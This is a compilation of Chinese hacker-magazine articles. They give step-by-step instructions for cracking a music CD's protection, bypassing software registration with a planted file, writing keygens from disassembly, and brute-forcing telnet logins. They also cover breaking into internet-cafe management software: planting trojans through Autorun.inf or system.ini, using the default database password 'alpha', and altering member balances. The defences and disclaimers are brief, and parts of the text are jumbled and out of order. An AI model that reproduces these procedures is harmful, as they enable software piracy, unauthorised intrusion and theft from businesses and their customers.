E:\>cd aaa
E:\aaa>dir /a
Volume in drive E has no label
Volume Serial Number is 245D-8CAF
Directory of E:\aaa

<DIR>
<DIR>
AAA      <DIR>    03-13-00   20:57   aaa
1        HCSSEE   EXE    760,320   03-09-00   10:27   HcsSee.exe
MP3      EXE      630,784   07-05-99   10:12   mp3.exe
MP3      INI        1,275   02-04-00    9:47   MP3.ini
MP3      M3U        2,008   02-04-00    9:47   MP3.m3u
MP3      PIC           30   02-04-00    9:47   MP3.pic
PLUGINS  <DIR>    03-13-00   20:57   Plugins
SKINS    <DIR>    03-13-00   20:57   Skins
WINAMP   INI        1,331   11-08-99   10:15   winamp.ini
WINAMP   M3U        5,286   11-08-99   10:15
```

呵呵……看到 HcsSee.EXE 了吧！我们还可以看到该音乐的播放软件实际上还是 WinAmp，我们再看看 aaa 目录里有什么：

```text
E:\>cd aaa\aaa
E:\aaa\aaa>dir /a
Volume in drive E has no label
Volume Serial Number is 245D-8CAF
Directory of E:\aaa\aaa

<DIR>
<DIR>
1   M3U      943   03-14-00   9:36   1.m3u
10  M3U      748   03-14-00   9:35   10.m3u
11  M3U    7,058   03-14-00   9:39   11.m3u
2   M3U      681   03-14-00   9:36   2.m3u
3   M3U    1,070   03-14-00   9:36   3.m3u
4   M3U      710   03-14-00   9:36   4.m3u
5   M3U    1,025   03-14-00   9:36   5.m3u
6   M3U    1,269   03-14-00   9:37   6.m3u
7   M3U    2,043   03-14-00   9:37   7.m3u
8   M3U      721   03-14-00   9:38   8.m3u
9   M3U      867   03-14-00   9:38   9.m3u

11 file(s)   17,135 bytes
2 dir(s)     0 bytes free
```

原来是播放列表文件啊！

要想知道音乐文件存在哪里，也就是找到另外的隐藏目录，也有三种办法：

- 1. 利用上面的播放列表文件
- 2. File Monitor 监视文件操作
- 3. 利用 WinAmp 的“View File Info”功能，我们再找找隐藏的音乐文件吧！

看到一个隐藏目录 bbb，看看里面有些什么：

```text
E:\>cd \
E:\>dir /a
Volume in drive E is 89400
Volume Serial Number is 245D-8CAF
Directory of E:\

<DIR>
<DIR>

0 file(s)         0 bytes
2 dir(s)          0 bytes free

E:\>cd /
E:\>dir /a
Volume in drive E is 89400
Volume Serial Number is 245D-8CAF
Directory of E:\

<DIR>
<DIR>
BBB   <DIR>   03-13-00   20:57   bbb
0 file(s)         0 bytes
3 dir(s)          0 bytes free
```

这就是隐藏的音乐文件啦，快点拷贝到硬盘上吧！

# 神秘园

## 黑客X档案2002-2003年合订本

```text
E:\>copy E:\ C:\Music\
E:\>cd \bbb
E:\bbb>dir
Volume in drive E is 8940-0C
Volume Serial Number is 245D-8CAF
Directory of E:\...\bbb

.                    <DIR>
..                   <DIR>
1-MARIAH             <DIR>    03-13-00  21:07
MARIAH CAREY
10-泰山              <DIR>    03-13-00  21:13
泰山
2-PRINCE             <DIR>    03-13-00  21:07
Prince
3-狮子王             <DIR>    03-13-00  21:07
狮子王
4-宝莲灯             <DIR>    03-13-00  21:08
宝莲灯
5-黄品源             <DIR>    03-13-00  21:09
黄品源--狠不下心
6-黄磊               <DIR>    03-13-00  21:10
黄磊——你怎么舍得我难过
7-林志炫             <DIR>    03-13-00  21:10
林志炫——爱情终究是一场梦
8-狮子王             <DIR>    03-13-00  21:12
狮子王——荣耀大地
9-世界片             <DIR>    03-13-00  21:12
世界片-大话西游/摔跤
11 file(s)              0 bytes
12 dir(s)               0 bytes free
```

好了，到此为止破解得也差不多了，我们知道 setup.exe 是伪装运行 HCSSee.EXE 的，而 HCSSee.EXE 则是提取音乐文件的，至于 xyc.exe，还不得想是什么的，大概和“网眼”有关吧，因为一运行就会出现“请使用正版软件”的提示信息。

至于为什么我们看不到“.”、“..”和“”目录，我想是因为修改了目录项的原因吧，这个问题大家可以一块探讨一下。

PS：还有一种破解方法，是利用 Windows 98 的特性，每次在 Windows 98 里用 DOS 方式时，如果你在 D 盘 XXX 子目录下运行了一个程序 SSS，此时用 DOS 方式进入 D 盘，则会直接进入到 XXX 子目录下，亦可。

# 狂心破解《黑客字典II》

首先先向小榕哥哥道歉，我可不是有意要去破解的，因为我实在搞不到注册码啊！

其实较早前我就下载了《黑客字典II》这个字典工具，根据里面的提示，需要发一封信，才可以得到注册码。但是无论我发多少次，得到的都是管理员的退信，告诉我这个邮件地址已经不存在，不知是我的邮箱有问题还是怎么回事，所以没办法，只好自己破解了！

这期光盘中送的也是《黑客字典II》，也需要发邮件注册，所以我想也会有很多人得不到注册码吧？所以我马不停蹄地研究出了一种非常之简单的破解方法，以使各位和我一样菜甚至比我还菜的人（呵呵，那可不多哦！）都能够使用小榕哥的这个做得很好的字典工具。

废话少说，Let's go！

首先找个强悍点的编辑器，大家都应该有吧？UltraEdit 或是 WinHEX 都很好用！我用的是 UltraEdit，解压缩后的《黑客字典II》就一个主程序和一个 HTM 格式的帮助文件。那就没什么好犹豫的了，直接用 UltraEdit 打开黑客字典的主程序 UltraDict.exe，然后用快捷键 Alt+F3 调出查找对话框，在 Find What 后面填上“成功”，然后在 Find ASCII 和 Match Case 前都打上钩，然后点 Find Next。第一次即可找到我们需要的位置，这里可以看到“非常感谢您的支持，注册成……”后面就是乱码了，再往下看，有“黑客字典II(注册码:%s)(PID:9948)”的字样。我曾用这里的 %s 做注册码、9948 做注册码试过，但未成功，但我不能放弃，菜鸟也要菜得有骨气，哪能轻易言败？继续仔细观察，在“非常感谢您的支持，注册成……”后有一个文件的路径，就是“C:\regbanyet.dat”，这个文件引起了我的怀疑，难道这里面包含了注册的信息，于是赶快查找该文件，但很可惜，没有找到，看来该文件是在注册成功后《黑客字典II》的主程序亲自生成的，那就好办了，我们自己也做一个吧。不过我不会做 .dat 文件啊！无奈下也只好试着做一个空文件试试了，因为据我推测里面应该是含有注册信息的（注册名和注册码），如果我建立一个空的文件，我想注册名和注册码也会相应地都变为空。那好，我们开始动手吧。为了保险起见，我从别的地方拷了一个后缀为 dat 的文件；然后用编辑器打开它。由于我所拷的这个文件小于 65K，所以我直接用记事本打开它，然后把里面的东西都删掉，再保存，这样就做成了一个空的 dat 文件。然后把它 copy 到 C 盘根目录下，并改名为 regbanyet.dat 就可以了。

现在再打开黑客字典看看，怎么样，在迎接你的画面上已经没有了“注册”的按钮，呵呵，已经可以使用它的全部功能了。

怎么样啊？不需要任何基础吧？只要会一些电脑的基本操作就可以完成了，除非你菜得连复制粘贴都不会。

看来有些东西的破解也不一定像大家想的那样复杂，只要多动动脑子，菜鸟们偶尔也可以当次大虾（只是偶尔哦^_^）。

# 给冰盾注册机

```text
0167:00401752    XOR EAX, EDI
0167:00401754    ADD ESP, BYTE+08
0167:00401757    CMP EAX, ECX
0167:00401759    JNZ 0040177E
```

给一个软件做注册机，首要前提当然是能手工破解该软件注册码，其次是对注册码的运算数学过程要清楚，才能以相应数学模型作基础写出注册码机。在这里，我要介绍的是如何手工破解该软件注册码及如何写注册机。

## 图1、运行软件

双击安装程序安装成功后，在“开始”程序中找到“水晶盾钻石版”，选择“注册冰盾”，出现注册画面，先记下注册申请码（机器码）：758979329，在注册认证码中随便输入一组数字，我输的是：135792468，点击“注册认证”钮，显示“注册失败”。

## 图2、设逻辑断点

重新运行一遍“注册冰盾”，在注册认证码输入框中输入：135792468，启动 TRW2000，按 CTRL+N，激活 TRW2000，在 TRW2000 的命令输入框中输入设逻辑断点命令：`bpx lmemcpy`，按 F5 键返回视窗界面，点击“注册认证”钮，程序发生中断。

## 图3、破解

在 TRW2000 的命令框中先禁止原中断，输入：`bd 01`，接着输入：`pmodule`，作用是返回原调用程序，程序显示：

```text
0167:0041CE80    MOV ECX,[EBP+10]
0167:0041CE83    PUSH BYTE-01
0167:0041CE85    CALL 00417829
0167:0041CE8A    JMP SHORT 0041CE97
```

一直按 F10 键，一直看到以下代码段：

```text
0167:0040173B    MOV EAX,[ESI+60]
0167:0040173E    PUSH EAX
0167:0040173F    CALL 004097B8
0167:00401744    MOV EDI,EAX
0167:00401746    MOV EAX,[ESI+64]
0167:00401749    PUSH EAX
0167:0040174A    CALL 004097B8
0167:0040174F    MOV ECX,[ESI+5C]
```

在运行到 0167:00401752 XOR EAX, EDI 时，在 TRW2000 的左上角可以看到此时 EAX 的值是：8180754，用命令：`? 8180754`，显示：DEC=135792468（十进制数），说明这个 EAX 存放的是我们输入的注册码，而 EDI 的值是：2D3D1B01，用命令：`? 2D3D1B01`，显示：DEC=758979329（十进制数），也就是我们的注册申请码，异或运算后的语句：0167:00401757 CMP EAX, ECX 中的 EAX 值为上一条语句 XOR EAX, EDI 的值，而 ECX 的值为：C5E8D8D8（十进制数为：3320371416），如果此两值不相等则跳转到显示注册失败。

## 图4、分析

从上面的跟踪过程我们可以看到，程序是将我们输入的注册码与注册申请码作异或运算，然后和一个固定值作比较，具体数学公式为：

注册码 XOR 注册申请码（758979329）= 3320371416

如果不相等，则注册码是错的，因此求注册码的公式为：

注册码 = 注册申请码（758979329）XOR 3320371416

## 图5、写注册码

我们用 DELPHI 来写此注册机，源程序为：注册机源代码.zip，其中的关键代码为：

```pascal
var
  a: longword;
begin
  a:=strtoint(edit1.text);
  a:=a xor 3320371416;
  edit2.text:=inttostr(a);
end;
```

运行后，输入注册申请码：758979329，点击“获取冰盾钻石版的注册码”钮，显示您的注册码：3906323417，将此注册码输入注册验证窗，显示注册成功。

## 图6、有关说法

从以上做法我们可以看出，如果一个程序的密码是不能手工算出来的（如 OICQ 的密码验证），则用程序也是不能实现的；如果一个程序的注册码算法不清楚，则注册机也是写不出的。从这两点来看，数学的水平高低决定了你的注册机的水平，所以初学者要将数学学好。希望本文对 CRACK 初学者有所帮助。

## Telnet密码破解软件 LetMeIn!1.0

首先启动 LetMeIn! V1.0，我们先假设在 nowhere.unix.net 中有一个帐号叫作 guest，使用的密码为 guest003，且我们有一个 dic.txt 档案，内含有字典档，其内容为：

```text
-----Cut here: DIC.TXT-----
guest001
guest002
guest003
guest004
-----End of DIC.TXT-----
```

我们先了解一下 Telnet 连线到 nowhere.unix.net 中的情况是如何回应的，先启动我们的 Telnet 软件，Telnet nowhere.unix.net 中：

```text
ms:lniet.net> telnet nowhere.unix.net
Trying 111.239.255.255...
Connected to nowhere.unix.net.
Escape character is '^]'.

Digital UNIX (nowhere.unix.net) (ttypa)

login: guest
Password:
Login incorrect

login: guest
Password:
Login incorrect

login: guest
Password: （输入了 guest001）
Login incorrect

login: guest
Password: （输入了 guest003）

Welcome to nowhere.unix.net, Guest login succ......(略)
```

试了两次之后恍然吧！因为我们已经知道要如何设定 LetMeIn! 了，首先在 Setup Keys 中输入帐号名称，也就是我们所要破解的 "guest"，为何其座标帐号名称后要加上一个 "-" 字符呢？因为我们要模拟输入帐号后的 Enter 键。我们要使用字典档做破解，所以接着选 Use Password File To Find.... 这个选项，再按下 Select file 选择我们预先准备好的字典档 “DIC.TXT”，After Key 中只要输入 "-" 即可，也是用来模拟 Enter 键用的！在 Delay 中设定为 8 秒，Pass Delay 2 秒不动，接着启动你的 Telnet 软件，先 Telnet 到 nowhere.unix.net，回到 LetMeIn! 中按下 Start Break 键后在 8 秒内将焦点转到 Telnet 软件中，开始破解：

```text
C:\> telnet nowhere.unix.net
Trying 111.222.255.255...
Connected to nowhere.unix.net
Escape character is '^]'.

Digital UNIX (nowhere.unix.net) (ttypa)

（焦点转回：底下为 LetMeIn! 自动输入）

login: guest
Password: （输入了 guest001）
```

成功了！请回到 LetMeIn! 中选择 Stop Break，开始使用 guest 这个帐号吧！

LetMeIn! 1.0 本身并没有支援自动 Telnet 破解，所以必须要您使用一般的 Telnet 程式来作破解的工作。基于这个原因，James 目前正在改写的 LetMeIn! V2.0 将会支援 PPP 连线的 Telnet 破解，并可能会多一个 Mail Password 的功能，你可以随便将它放在一台机器上跑，设定你的 Mail Address，找到后会 Mail Password 给你！不过一切要等 LetMeIn! 2.0 正式 Release 才知道啦~~~

LetMeIn! V1.0 的功能仅作为自动输入，所以用来破解帐号的能力并不强，但是如果你没有办法捞到 /etc/passwd 的话，也只能用这个方法了，如果你用 ClayMore 来作这样的动作，你会发觉在网络频宽不够的情况下，LetMeIn! 的 Pass Delay 功能变得非常有用，而 ClayMore 却不能在这种情况下作任何 Delay，也没什么用处了！

LetMeIn! 虽然有其用处，不过在 Crack Password 上还是没有直接抓 /etc/passwd 再 Crack Jack 快！不过如果系统真的有一点漏洞，还是只有这个方式可行了....

# 跟我学写注册机

童志强

## 什么是注册机

每天尝试各种各样的软件，你是不是对注册机越来越熟悉了。的确，在网络如此发达的今天，我们有许多机会可以接触注册机这样的东西，那么什么是注册机呢？

一般来说，软件开发者在他的软件中总要设置一定的保护手段来防止盗版，其中比较有效的一个就是序列号保护。软件作者通过一定的算法，可以生成许多不重复的号码，并用这些号码来作为软件识别注册与否的标志。而注册机就是破解者针对某一软件的特定算法，提取或者逆向而来的针对注册机制所写的能够得到正确注册码的程序。

下面我们来看看最常用的序列号式的注册过程。我们通过网络、光盘等媒介获得共享软件（Shareware），这些软件一般存在这样或者那样的限制，比如功能受限制（某些关键功能不能用）、使用时间受限制等等。而当我们付一定的费用给软件的作者后，作者给我们一个经过运算的注册码（Register Number），我们在软件的注册窗口填入软件作者给的注册码，这样软件就会去掉所有的限制了。

从上面看来，要想使用全功能的软件，关键就在于有正确的注册码，或者让软件跳过对注册码的检测，让软件以为自己是注册后的版本。我们今天的讨论重点是获取正确的注册码后如何编写出相应的注册机。从上面的分析，大家应该看到，要写注册机，就必须先获得软件的注册码，弄懂注册码调用的算法，然后我们就可以用汇编或其它语言来把算法还原。这样每个使用者就可根据自己的要求输入自己的姓名、公司的名称等从而得到正确的注册码。

目前有不少的程序，它的注册码都与硬件有关。我们在一台机器上得到的注册码无法在另一台机子上通用，软件使用者要把他的机器码 Email 给软件作者，才能获得正确的注册码。从这点上看，用注册机真是一种奢侈。不过写注册机向来都是大侠们的事，写这东西可不是什么愉快的事情，但从 Crack.Code2000 和 Keymake 这两个软件出来后，一切都变得简单了。今天我们就介绍国产的 Keymake 软件，用它生成一个真正的内存型注册机。

你也许会奇怪为什么叫内存型？其实是因为这种注册机的使用和真正的注册机略有不同。使用它的过程是把它复制到要解密的程序所在的目录，执行注册机，它会自动启动要破解的软件，然后在我们输入用户名和注册码（随意输入的）后，它会自动把内存中正确的注册码显示出来。

```text
Referenced by a (Unconditional or Conditional) Jump at Address:
004B2B9F(C)

004B2BE3 8B55F0        mov edx, dword ptr [ebp-10]
004B2BE6 8D45F8        lea eax, dword ptr [ebp-08]
004B2BE9 E8B2AF5FF     call 004046B0
004B2BEE 8D55E8        lea edx, dword ptr [ebp-18]
004B2C01 8B83FC020000  mov eax, dword ptr [ebx+000002FC]
004B2C07 E8ACDDF8FF    call 004409B8
004B2C0C 8B45E8        mov eax, dword ptr [ebp-18]
004B2C0F 8D55EC        lea edx, dword ptr [ebp-14]
004B2C12 E81F5EF5FF    call 00408B28
004B2C17 8B55EC        mov edx, dword ptr [ebp-14]
004B2C1A 8B45F8        mov eax, dword ptr [ebp-08]
004B2C1D E8F21DF5FF    call 00404A14

Possible StringData Ref from Code Obj -> '注册成功'
004B2C24 B8C02C4B00    mov eax, 004B2CC0
004B2C29 E8966AF8FF    call 004996C4
004B2C2E 8B45F8        mov eax, dword ptr [ebp-08]
004B2C31 50            push eax
004B2C32 8D45E4        lea eax, dword ptr [ebp-1C]
004B2C35 E8FACFEDFF    call 0048FC34
004B2C3A 8B45E4        mov eax, dword ptr [ebp-1C]
```

## 注册码的获取

注册码有许多的获得方式，最简单的就是内存对比了。现在我们就用一个实例来讲解这个问题。首先我们在网上随便找到一个 XX 邮件群发工具 1.0 版本，在安装完成后，启动该软件点击帮助菜单→注册，就会出现如图 1 所示的注册画面。

上面的“本机安装号码：EM114511DFXU”就是根据不同的机子生成的硬件号码，我们随意输入一个 123456，就会看到出错提示，如图 2 所示：

# 神秘园

```asm
004B2C42 BAE82C4B00    mov edx, 004B2CE8
004B2C47 E844CDFDFF    call 0048F990

* Possible StringData Ref from Code Obj -> "已经注册"

004B2C4C BAF82C4B00    mov edx, 004B2CF8
004B2C51 8BC3          mov eax, ebx
004B2C53 E890DDF8FF    call 004409E8
004B2C58 EB18          jmp 004B2C72
```

上面的到这里是注册成功后，将注册码写入文件，这里不赘言。

```asm
* Referenced by a (U)nconditional or (C)onditional Jump at Address:
|
|:004B2C22(C)
|
* Possible StringData Ref from Code Obj -> "注册码错误!"

004B2C5A B80C2D4B00    mov eax, 004B2D0C
004B2C5F E8606AF8FF    call 004396C4
004B2C64 8B83FC020000  mov eax, dword ptr [ebx+000002FC]
004B2C6A 8B10          mov edx, dword ptr [eax]
004B2C6C FF92C0000000  call dword ptr [edx+000000C0]
```

“错误！”、“注册码错误”的提示，是从上面的 004B2C22(C) 跳转到这里来的，就是上面比较注册码不对，就跳转到这里来，下面几行就是注册码不对的时候执行的操作。

好了，上面大体上我们分析完毕。我们来看看上面的地址：004B2C1D E8F21DF5FF call 00404A14，进去后会有什么样的计算代码：

在 W32Dasm 中将光标置于：004B2C1D E8F21DF5FF call 00404A14 上，然后点击工具栏中的 Call 执行调用，就可以看到跳转到这个 Call 里面后执行的代码，如图3所示：


这里有许多地址，我删除了很多，看来这个软件有不少地方要校验是否是注册版。

```asm
004998B2    0049A28D    0049A3B1
0049C5BE    0049CB3F
0049D0FB    0049D366    0049DB62
0049DC16    0049E665
```

```asm
0049D68A    004B2C1D    004B2DB6
004B5E37

00404A14 53          push ebx
00404A15 56          push esi
00404A16 57          push edi
00404A17 89C6        mov esi, eax
00404A19 89D7        mov edi, edx
00404A1B 39D0        cmp eax, edx
00404A1D 0F84BF000000 je 00404AB2
00404A23 85F6        test esi, esi
00404A25 7468        je 00404A8F
00404A27 85FF        test edi, edi
00404A29 746B        je 00404A96
00404A2B 8B46FC      mov eax, dword ptr [esi-04]
00404A2E 8B57FC      mov edx, dword ptr [edi-04]
00404A31 29D0        sub eax, edx
00404A33 7702        ja 00404A37
00404A35 01C2        add edx, eax
```

Call 跳转到这里时，向下分析看看。上面的停住，到这里的比较，经过实际分析得知，这里就是比较注册码的地方。下面还有个 ret 返回，因为代码较长就没有写出来，大家知道就可以。就是返回到 004B2C22 /736 /1E，004B2C5A 找到注册码出错的地方的语句。在这里面，我们用 d、eax 命令可以看到正确的注册码 “V?BHELBHU8PG”，用 d、edx 命令就可以看到内存中输入的假的注册码 “123456”。

到此，我们已经能正确地找到注册码了，比如我的机子就是：本机安装号码：EM11451IDFXU；注册码：V?BHELBHU8PG

## 注册码的制作

下面我们就用注册机生成器 KEYMAKE 来做个通用型的注册机。启动注册机编写器，点击“其它→内存注册机”，如图4所示：


然后会出来“设置注册机”的窗口，我们点“浏览”找到要破解的程序，点“打开”。如图5所示：


然后在下面的“中断地址列表”的最下面点“添加”，在弹出的窗口中分别填入如下信息，如图6所示：

- 中断地址：4B2C1D /* 这个就是第一次的 CALL 所在的地址 */
- 中断次数：1 /* 绝大多数的都是 1 次，只有个别情况不是 */
- 第一字节：E8 /* 就是这个指令的第一个字节，E8F21DF5FF 这里是 E8 */
- 指令长度：5 /* 就是 E8F21DF5FF 的长度，两位算一个 */

你可能有点看不懂，没关系，对照着看上面的具体代码：

`:004B2C1D E8F21DF5FF`  
`call 0040A414`


做好后点击添加；然后点击关闭，中断列表中就有一次添加的内容了。

下面就是最关键点了，我们找到能显示出注册码的地方，就是上面分析中的：

`:00404A1B 39D0    cmp eax, edx`

把这里也添加进去，让程序在这里中断，并显示出 eax 的值，就是正确的注册码了。再次点击添加，这次内容如下：

- 中断地址：404A1B
- 中断次数：1
- 第一字节：39
- 指令长度：2


在“保存下列信息为注册码”前面打上勾，选中它，然后再选中下面的“内存方式”，选中下面的寄存器 EAX，“在结尾处插入字符”选项中，我们随意输入一个小写的“e”，目的是为了和真正的注册码区分开，如图7所示：

注意：这里面我们用的是显示出内存中真正的注册码，但实际显示时还会出现某些未知字符，所以我们插入了一个小写的“e”（别的也可以），就把后面的非注册码字符和真正的注册码分开了。

一般来说，我们只在能显示出注册码的地方中断就可以。但这个例子只是中断了一次就可以了，其他程序也许不同，必须有多次的中断，所以大家在实践的时候要多多测试才能体会出来。设置好之后，点击“添加”。如图8所示：


我们写的注册机应该有自己的大名啊！所以点击右侧的“用户信息”，按照相应的项目填写就可以了。如图9就是我写的示例。

点击“确定”后回到图8的界面。如果你还觉得做得不够好，可以点击“全部重置”，也可以点击“配置方案”将当前的设置保存下来。

最后，点击“生成”按钮，在弹出的对话框中点击“选择注册机外观”，在里面选择你喜欢的样式，我这里选的是 XP 的样式。然后在“选择图标文件”中给文件起个形象的文件名，并选择好“保存类型”。最后保存起来就可以了。如图10、11所示：


现在我们来执行这个注册机看看效果，如图12所示：

进行正常的注册，注册码随意填写。这里是 111，在点击注册按钮后程序就中断下来，屏幕如图13所示：

我们将“e”前面的字符复制下来，然后再进行一次注册，如愿成功！如图14所示：

怎么样，是不是终于尝到苦尽甘来的味道了？Keymake 还有许多功能，我们以后再介绍。好了，到目前为止，你应该能学会简单的注册码的编写了。我们今天所阐述的办法是非常简单的，对你的 ASM 水平要求也不高，希望你能融会贯通地学习，并给大家写出更好更实用的注册码来。

本次测试的软件为该软件的老版本，目前此方式对该 Email 软件已经失效，如果你想练习请找老版本，新版本需要脱壳，话题之外就不多说了。

本次教学所用的软件在光盘内容里找。


# 方程式——请你重视严重后果

红色自由人

大部分的入侵技术都是利用系统本身的漏洞进行的，而其中的关键就是人——网络管理员。管理员的技术素质、工作态度在很大程度上会左右系统的安全性能。本文以万象幻境网吧管理系统（为方便以下简称万象）为例，描述笔者是如何破解万象网管软件的。

万象中最为重要的一个文件是名为“OctLog.mdb”的数据库文件，它记录了万象的会员数据，有会员资料、会员卡号、余额等敏感数据；如果这个文件一旦被用心不良者窃获并肆意修改，那后果将会相当严重。所以这里提醒网吧管理员，必须保护好你的会员数据库，免生后患。

下面笔者从破解者的角度来描述整个破解过程，让你领会一次因疏忽大意而导致的严重漏洞。所谓知己知彼，方能百战不殆。

其他盘完全共享的话也是会有机会的，方法就是利用光盘自动运行程序的原理，在完全共享盘（例如 E 盘）的根目录建立一个“Autorun.inf”文件，用记事本就可以进行编辑，文件格式的后缀为 INF，内容如下：

```ini
[autorun]
OPEN=木马的路径
```

这里最好是用经过自己处理过的木马（方法见我的另一篇文章《不懂编程也玩个人版木马》，刊登在《黑客X档案》第3期“牧马记”栏目中），因为大部分主机都会有杀毒软件。这样当有人双击 E 盘时木马程序就会自动运行，之后再用木马把“Octopus”文件夹所在的盘符也共享就可以了，但这个方法我并不推荐，因为很容易被人发觉；如果不删除“Autorun.inf”文件，管理员双击就进不了 E 盘，要进去的话还要用右键点“打开”才行。关于“光盘自动运行文件 Autorun.inf 的利用”，对 Autorun.inf 有详细介绍。

## 一、前期工作

首先的问题就是我们如何接近数据库文件“OctLog.mdb”。这里我们简单分析一下，现在的网吧一般不安装万象服务器版（收费端）在 C 盘，原因是担心系统崩溃丢失数据，大部分安装在 C 盘以外，例如安装在“D:\Octopus”。所以我们首先要确定网吧的主机是哪一台，安装了“Octopus”的盘有没有共享。如果没有共享可以用下面提到的方法试一试；想办法令“OctLog.mdb”被共享，可能你会觉得共享了“Octopus”的网吧不会有，但以我的实践经验可以告诉你，你一定能找到这样的网站，笔者所在地的城市已经找到很多这样的网吧了。为什么会是这样？分析主要原因，我个人认为网吧本来需要比较高素质的人员进行管理，但由于网吧竞争激烈，利润越来越少，网吧老板根本不会给较高的薪水，具有较高管理水平的人也不愿意到低薪的网吧工作，这样很多“非专业”的人员就从事了网吧的管理，而他们的网络安全意识是十分薄弱的。就比如有一次我好心提醒一网吧的管理员其他的局域网内全是“欢乐时光”，他居然不知道我所云。即使有的网吧暂时没有共享“Octopus”，也不要灰心，有时候网吧人员变动，主机的设置也有可能会变动，这样也是会有机会的，下面进入正题……

### 1、Autorun.inf 文件的妙用

例如有一个网吧把万象安装在 D 盘，而 D 盘没有共享，而

> 注意：这是破坏性的方法，一般不宜轻易使用；但如果 C 盘完全共享的话，你就可以在“win.ini”的“load=”或者“system.ini”的“shell=explorer.exe”后面加上木马的路径。

这里比如在“shell=Explorer.exe”后加上木马的路径，如果木马是放在 win\system 目录下的话，那就直接加上木马程序的名字即可，例如：

shell=Explorer.exe cool.exe

这样管理员不易察觉，但现在完全共享其 C 盘的傻瓜已经不多了。

### 2、Vredir.vxd 文件偷梁换柱

你大部分遇到的网吧可能是 D 盘加了密码的只读共享，在 Win98 下破解共享密码的方法很简单，因为在 Win98 共享目录密码校验有 BUG，只要将一个经过改动的“Vredir.vxd”文件（下载地址：http://www.heibai.net/download/show.php?id=485）拷贝到 WINDOWS\SYSTEM 目录覆盖原文件，重启机器后，你再进入有密码共享的目录，出现提示输入密码的窗口时不用敲密码了，只要按住回车键不放就可以进入了。现在很多网吧在客户端装了“还原精灵”，对于我们这些“入侵者”来说又多了一道障碍。我们换“Vredir.vxd”之后必须重启才能生效，现在有了“还原精灵”，换了等于没换。怎么办，下面给大家提供 3 种解决办法。


## 二、精彩图解

下边开始进入最精彩的部分……

### 1、第一招→直捣黄龙

最幸运的情况是你遇到了“Octopus”目录被完全共享，而且网吧客户端装了 Microsoft Access，这时候的入侵最简单，用客户机 Microsoft Access 打开收银机的“OctLog.mdb”，这时候提示输入密码，输入“alpha”确定后就会见到如图1。


选择“打开数据库”确定后再输入一次“alpha”后见到图2。


不要管它，点确定后见到图3。


之后双击“userlist”就会见到图4。

看到什么了？会员的资料尽收眼底，“cardID”下的就是会员卡号，“password”下的就是密码，“remain”就是剩余的金额，还有身份证号码、折扣、经办人……里面的数据是可以直接修改的，你可以在剩余金额的后面加一个“0”，你甚至可以在这进行新增会员、改变密码等操作。见图5。


我加了一个“周小明”的用户名，卡号是“000956”，为什么挑这个？因为发现原来的卡号“000953”到“000958”之间有“空隙”。当然身份证是乱填的，其他的也要按照原来的格式模仿，这样保存后就会插到中间，不易被发现，而且这样操作万象的日志不会有任何记录。或许这也是网吧管理员做假账的好方法，呵呵。

> 提示：即使有的网吧客户机没装 Microsoft Access 也不用担心，可以把“OctLog.mdb”文件上传到你的邮箱，然后回家用上面介绍的方法破解别人的会员密码，但这个不是本文要讲的内容。

### 2、第2招→伪装欺骗

这里还有第二种思路，首先去下载万象（下载地址：http://down.kk66.com/show.asp?id=3680），下载后选择安装服务器版，见图6。


安装路径不要和客户机版安装路径相同，安装完成后千万不要运行。当然，如果你不小心运行了，那可以肯定的是，在不足 30 秒内，管理员就会站在你的身后……毛骨悚然……因为运行之后，“真”服务端会提示有另一个服务端在某某号码的机器上运行。网上有一篇文章说利用万象服务端可以反控整个网吧，其实是不可能的，往下看你就会知道答案的。

所以我们必须进行必要的设置。首先将“真”服务端安装目录映射成本机的一个驱动器，如图7。

图10中就是在驱动器栏中选择映射到了本机上的“OctLog.mdb”文件，然后确认退出。这时两个服务端就共用一个同步的数据库了。最后还要打开注册表编辑器，找到“HKEY_LOCAL_MACHINE\Software\万象幻境”这个键。先在“万象幻境”后新建一个主键“专家系列网管软件服务端”，服务端暂时未运行，所以这个键就是自己添加，然后在“专家系列网管软件服务端”里面添加一个 DWORD 值，名称叫：LPORT，数据设为任意一个值，比如 8127。见图11。


图7中就是把远程“真”服务端文件夹的路径“\\Star50\d\Octopus”映射为本机的 F 盘，然后打开本机控制面板里的“ODBC 数据源（32位）”，选择配置“octopus”，图8。然后在随后的对话框中选择“真”服务端的“OctLog.mdb”，见图9。


关掉注册表编辑器以后就大功告成啦，这时打开本机的服务端，见图12。


图12中弹出错误提示，我们不用管它，点击“确定”进入后，是看不到任何局域网内的计算机的（这就是前面说的不可能反控的原因），见图13。


但是可以对会员数据库进行操作，见图14。两个数据库的操作是同步的，所以就可以对会员卡加钱了，呵呵！极具讽刺的是，这个方法竟然是我参考万象官方网站中的帮助而领悟的。

OK，文章的主要部分到这里就介绍完了。记住，千万不要用以上方法去搞破坏，一切后果自负。我的目的是让你知道被破解的思路，希望你能举一反三，构造自己的安全防御思路。

## 三、防御办法

其实防范的方法也很简单，首先管理员不要太依赖“还原精灵”之类的软件，定期查看服务器端的注册表。

> 提示：下面 2 个工具是破解者必备“良药”  
> 万象密码破解器 v0.6  
> http://www.ttian.net/download/show.php?id=59  
> 破解局域网密码 Pass 试 0  
> http://www.heibai.net/download/show.php?id=1465

“HKEY_LOCAL_MACHINE\Software\Microsoft\Windows\CurrentVersion\Network\LanMan” 有没有被人设置成了隐藏共享，下面图 15 就是被设置了隐藏共享的注册表图。

而且你在网络属性中还看不到硬盘被共享的！当然那些共享的“托手”也不会见到。如果把“Flags”=dword:00000302 改成“Flags”=dword:00000402，就可看到硬盘被共享。如果想删除隐藏共享，只要把“C$”、“D$”等删除就可以了。只要“OctLog.mdb”文件不被共享就不用担心了。可以得出结论，防范措施就这么简单，但要看你够不够勤快。

> 再次警告：本文中的技术手段采用示例论述之用，目的在于提醒相关软件开发者漏洞之所在，以及为相关从业人员提供安全的防御措施。不得利用本文去破坏，违者一切后果自负。

## 我替软件——TRW2000 的应用扩展

相信对于 TRW2000（以下简称 T2）这个名字大家都不会陌生吧！很早以前我就听说过这款软件，但真正开始对它感兴趣却还是从拿到了《黑客 X 档案》的创刊号之后才开始的。就 T2 本身而言，它是一款调试软件。而从我所接触到的信息来看，T2 大部分应用于共享软件的破解工作，是 CRACKERS 的必备工具。然而找到某些软件的注册机仅仅是它广泛用途中的一种。

同样的原理，如果应用到口令的破解上会是怎样的一种景象呢？想想就让人兴奋，那么还等什么呢！我们开始吧！

首先我们拿 QQ 密码为例，脱机登录 QQ 需要口令（无论你是为了察看好友列表，还是想导出聊天记录，或者没有任何原因（解密需要理由吗？）），这一点和某些软件需要注册码是一样的。打开 QQ 随便填写口令然后确定，之后会弹出请再次输入登录密码的对话框，如图 1 所示。

